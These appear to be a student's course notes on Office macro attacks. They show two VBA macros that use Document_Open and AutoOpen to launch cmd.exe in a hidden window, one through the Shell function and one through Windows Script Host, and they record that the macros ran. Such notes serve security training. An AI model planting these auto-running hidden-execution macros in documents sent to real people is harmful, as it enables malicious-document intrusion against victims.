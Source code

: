 -  the first and simplest technique leverages the vba `shell`function, which takes two arguments. the `first` argument is the path and name of the application to launch along with any arguments. the `second` is the `windowstyle`, which sets the program's window style. most attackers set this to `vbhide` (or its numerical equivalent `0`), which hides the program's window.
- this code will launch a `command prompt` in a `hidden window` after the victim enables macros:
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    Shell str, vbHide
End Sub
```
- changed this so it would run upon opening
![[Pasted image 20250602203522.png]]
- and it ran
![[Pasted image 20250602203446.png]]
We can also use `Windows Script Host` to launch a shell. To do this, we'll invoke the `CreateObject` method to create a WSH shell, and from there we can call the `Run` method. While this might sound complicated, the code is relatively simple:
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub
```
- in this code, the call to `CreateObject` returns the `WSH` object, from which we invoke the `Run` method, supplying the path and name of the application to execute along with the `vbHide` window style (0). Executing the Macro will once again open `cmd.exe` as a hidden process, which we can again verify with `Process Explorer`.

![[Pasted image 20250602204239.png]]

#### Exercises
